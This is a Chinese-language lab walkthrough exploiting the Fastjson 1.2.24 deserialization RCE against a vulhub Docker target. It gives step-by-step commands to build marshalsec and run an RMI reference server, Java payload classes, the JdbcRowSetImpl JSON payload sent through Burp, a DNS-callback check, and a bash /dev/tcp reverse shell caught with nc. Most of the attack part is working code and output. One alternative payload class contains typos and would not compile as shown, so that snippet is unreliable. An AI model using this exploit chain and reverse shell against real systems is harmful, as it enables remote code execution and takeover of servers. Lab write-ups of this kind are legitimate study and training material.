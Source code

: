 # 1.2.24-rce

### 工具环境准备

下载marshalsec

{% embed url="https://github.com/mbechler/marshalsec" %}

下载好以后cd到marshalsec目录mvn编译它，会生成一个名为target的文件夹，开启rmi服务的工具在里面，如果没有mvn命令那用apt命令安装它

{% code lineNumbers="true" %}
```
apt install maven
mvn clean package -DskipTests
```
{% endcode %}

将这个POC保存到攻击机的目录，我这里将它命名为TouchFile.java

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译这个POC，并在当前目录用python开启一个http服务

{% code lineNumbers="true" %}
```
javac TouchFile.java
python3 -m http.server 8881
```
{% endcode %}

进入到marshalsec的target目录中在攻击机中开启rmi服务，指定加载类，并监听端口2345

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# ./java -cp ../../marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.1.110:8881/#TouchFile 2345
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 2345
```

将以下的payload放入到请求包单中发送请求，记得将请求包修改成POST请求

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.110:2345/TouchFile",
        "autoCommit":true
    }
}
```

Burp发送请求

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

可以看到RMI服务以及python请求都有相应，说明请求没有问题

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

POC中的命令是在靶机tmp目录创建一个success文件夹，我们进入到靶机的docker容器当中查看以下以确定没有任何问题

```
root@debian:~/vulhub/fastjson/1.2.24-rce# docker exec -it badb1f766db0 /bin/bash
root@badb1f766db0:/# ls
bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
root@badb1f766db0:/# cd /tmp/
root@badb1f766db0:/tmp# ls
hsperfdata_root  success  tomcat-docbase.9077591842716910581.8090  tomcat.5885354487546599121.8090
```

可以看见文件创建成功，下面再尝试一下dnslog的方式来验证漏洞，将上面的POC命令修改以下

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "www.k1mdihfsa4d4jv2kh73z8balmcs3g84x.oastify.com"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

将原来的class文件删除重新编译，我这里用的是Burp自带的Dnslog平台，别忘记将请求包改成POST，发送请求，OK 有了响应，（如果有问题就重新运行一下rmi服务和python的http服务）

查看Burp的Dnslog平台，有了回显

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

去生成一个反弹shell的payload

```
bash -i >& /dev/tcp/192.168.1.110/8886 0>&1
```

{% embed url="https://www.revshells.com/" %}

修改POC并重新编译

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash", "-c","bash -i >& /dev/tcp/192.168.1.110/8886 0>&1"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

也可以用下面这个POC，作用都是一样是的

```
/*
 * getshell.java
 * 将其编译后生成Exploit.class
 * 上传到HTTP服务器
 */
public class GetShell{
    public GetShell(){
        Runtime.getRuntime.exec("bash -i >& /dev/tcp/192.168.1.110/8886 0>&1");//监听主机的IP和端口号
    }
    public static void main(Sring[] args){
        GetShell e = new GetShell();
    }
}
//直接使用静态代码块亦可
```

nc监听8886端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 8886
listening on [any] 8886 ...
```

Brup发送请求，

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

查看nc的监听，返回了一个shell

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
